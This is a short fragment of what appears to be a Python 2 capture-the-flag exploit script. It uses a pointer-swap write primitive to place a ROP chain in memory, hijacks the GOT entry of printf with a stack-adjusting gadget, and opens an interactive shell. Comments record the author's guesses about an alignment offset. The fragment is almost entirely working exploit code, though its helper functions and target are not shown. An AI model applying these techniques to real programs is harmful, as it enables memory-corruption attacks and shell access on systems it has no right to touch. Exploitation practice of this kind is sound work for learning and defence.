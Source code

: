 ```python
print hex(rop_dst)

for i in xrange(0, len(rop2)/0x10):
	set_pointers(fst_data + 0x118 * i, rop_dst + 0x10 * i)
	swap()
	set_pointers(fst_data + 0x118 * i + 8, rop_dst + 0x10 * i + 8)
	swap()
	#interval becomes 0x118, not sure why,
	#maybe there is a stack adjustment in _libc_start_main
	#the ROP that returns to the main breaks the alignment,
	#so that it will adjust alignment and change this distance?

set_pointers(add_rsp, p.got["printf"])
swap()

sh.interactive()
```

